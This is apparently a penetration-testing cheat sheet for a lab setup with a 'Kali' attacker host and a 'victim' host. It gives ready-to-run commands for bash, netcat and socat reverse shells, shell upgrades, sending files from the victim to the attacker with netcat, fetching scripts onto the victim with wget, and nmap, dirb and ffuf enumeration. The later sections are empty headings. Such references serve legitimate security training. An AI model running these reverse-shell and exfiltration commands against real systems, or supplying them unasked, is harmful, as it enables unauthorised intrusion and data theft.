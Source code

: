 > Victim host 10.10.10.77 and Kali host 10.10.10.10

# Useful Commands

## Create web server

### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Send files

### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

## Reverse shells

### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

### Listener

```
nc -lvp 4444
```

# Enumeration

### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

## If Web Server

### dirb

Quick directory busting

```
dirb http://10.10.10.77/
```

### fuff

VHOST Discovery

```
fuf -w subdomains-top1million-110000.txt -u https://10.10.10.10/ -H "Host:FUZZ.10.10.10.10"
```

# Privilege Escalation

# Reverse Engineering

# Some Scripts

# References
